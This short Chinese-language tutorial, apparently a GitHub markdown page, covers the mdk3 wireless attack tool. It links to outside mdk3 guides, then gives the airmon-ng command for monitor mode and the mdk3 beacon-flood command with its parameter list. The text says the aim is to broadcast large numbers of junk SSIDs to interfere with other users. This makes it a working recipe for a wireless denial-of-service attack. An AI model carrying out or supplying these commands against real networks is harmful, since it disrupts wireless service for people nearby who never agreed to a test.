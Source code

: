 ### 网上教程

[MDK3官网](https://www.kali.org/tools/mdk3/)
[无线大杀器mdk3教程](https://parrotsec-cn.org/t/mdk3/159)
[无线DOS 攻击测试工具：mdk3](https://cloud.tencent.com/developer/news/16421)

### 用树莓派（推荐）

#### 前置条件

欲用此利器，必先启动网卡的监听模式
```shell
airmon-ng start wlan0
```

#### Beacon Flood（Beacon泛洪攻击）

攻击原理是攻击者伪造任意的MAC地址在无线网络环境中发送Beacon管理控制帧，造成一定范围的无线覆盖范围内的用户扫描到大量的垃圾SSID

```shell
# 参数：
# -n <ssid>  自定义ESSID
# -f <filename>  读取ESSID列表文件
# -v <filename>  自定义ESSID和BSSID对应列表文件
# -d  自定义为Ad-Hoc模式
# -w  自定义为wep模式
# -g  54Mbit模式
# -t  WPA TKIP encryption
# -a  WPA AES encryption
# -m  读取数据库的mac地址
# -c <chan>  自定义信道
# -s <pps>  发包速率
mdk3 wlan0mon b 
```

发射大量的垃圾SSID来干扰其他使用者
